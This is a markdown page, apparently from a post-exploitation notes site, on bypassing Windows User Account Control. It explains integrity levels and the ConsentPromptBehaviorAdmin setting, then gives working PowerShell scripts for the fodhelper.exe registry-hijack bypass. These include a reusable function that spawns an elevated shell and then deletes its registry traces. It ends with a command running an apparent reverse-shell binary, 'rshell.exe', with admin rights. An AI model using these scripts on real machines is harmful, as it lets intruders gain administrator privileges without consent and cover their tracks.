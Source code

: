 ```yaml
---
title: Bypass UAC
category: Post Exploitation
order: 2
---
```


User Account Control (UAC) is an access control system that forces applications and tasks to run in the context of a non-administrative account until an administrator authorizes elevated access.

UAC was first introduced in Windows Vista and attracted complaints from users due to the frequency and annoyance of the popups, which led Microsoft to introduce some relaxations.

# Mandatory Levels

Exists three types of Mandatory Level:

```
whoami /all

GROUP INFORMATION
-----------------

Group Name                          Type             SID          Attributes                                        
=================================== ================ ============ ==================================================
Everyone                            Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users        Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                       Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE            Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users    Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization      Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                               Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication    Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Low Mandatory Level Unknown SID type S-1-16-4096  Mandatory group, Enabled by default, Enabled group
```

* **Low Mandatory Level:** Services like IE has no permissions, it can not write on any directory, but IE for example need to write cache on a directory. So with Low Mandatory Level we will only able to write data on the following path. `C:\Users\Victim\AppData\LocalLow`
* **Medium Mandatory Level:** Permissions as a normal user.
* **High Mandatory Level:** Permissions as NT AUTHORITY/SYSTEM.

# UAC Bypass

Some of the own trusted signed applications are able to "auto-elevate" without consent in certain conditions.

The default configuration for UAC is `Prompt for consent for non-Windows binaries`, but can also have different settings such as `Prompt for credentials`, `Prompt for consent` and `Elevate without prompting`.

We can check UAC configuration with powershell.

```powershell
$path = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
$filter="ConsentPromptBehaviorAdmin|ConsentPromptBehaviorUser|EnableInstallerDetection|EnableLUA|EnableVirtualization|PromptOnSecureDesktop|ValidateAdminCodeSignatures|FilterAdministratorToken"
(Get-ItemProperty $path).psobject.properties | where {$_.name -match $filter} | select name,value


Name                        Value
----                        -----
ConsentPromptBehaviorAdmin      5
ConsentPromptBehaviorUser       3
EnableInstallerDetection        1
EnableLUA                       1
EnableVirtualization            1
PromptOnSecureDesktop           1
ValidateAdminCodeSignatures     0
```
We are interested in `ConsentPromptBehaviorAdmin` parameter.

|  **Value**  | **Meaning**                             |
|:-----------:|-----------------------------------------|
|      0      | Elevate without prompting               |
|      1      | Prompt for credentials (Secure Desktop) |
|      2      | Prompt for consent (Secure Desktop)     |
|      3      | Prompt for credentials                  |
|      4      | Prompt for consent                      |
| 5 (Default) | Prompt for consent non-windows binaries |

A UAC bypass is a technique by which an application can go from `Medium Integrity` to `High Integrity` without prompting for consent. 


## fodhelper.exe

`fodhelper.exe` is a Microsoft support application responsible for managing language changes in the operating system. This binary runs as `high integrity` on Windows 10.

With `sigcheck.exe` from [SysInternals ](https://docs.microsoft.com/en-us/sysinternals/)is posible to inspect the application manifest.

```
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

> **Note:** Search for `requestedExecutionLevel` as `requireAdministrator` and `autoElevate` in `true`.


```
#This UAC bypass tries to execute your command with elevated privileges using fodhelper.exe

$command = "C:\Windows\System32\cmd.exe"

#Adding all the reistry required with your command.

New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $command -Force

#Starts the fodhelper process to execute your command.

Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

#Cleaning up the mess created.
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

There are an alternative with Ps1.

```powershell
<#
.SYNOPSIS  
    This script can bypass User Access Control (UAC) via fodhelper.exe
　
    It creates a new registry structure in: "HKCU:\Software\Classes\ms-settings\" to perform UAC bypass and starts 
    an elevated command prompt. 
　
.EXAMPLE  
　
     Load "cmd /c start C:\Windows\System32\cmd.exe" (it's default):
     FodhelperUACBypass 
　
     Load specific application:
     FodhelperUACBypass -program "cmd.exe"
     FodhelperUACBypass -program "cmd.exe /c powershell.exe"　
#>

function FodhelperUACBypass(){ 
 Param (
           
        [String]$program = "cmd /c start C:\Windows\System32\cmd.exe" #default
       )
　
    #Create Registry Structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
　
    #Start fodhelper.exe
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
　
    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
　
}
```

## Start-Process RunAs

It is possible to execute a command as admin if we are able to access to the GUI.

```
Start-Process powershell -ArgumentList "-NoProfile", "-Command", "c:\windows\temp\rshell.exe" -Verb runAs
```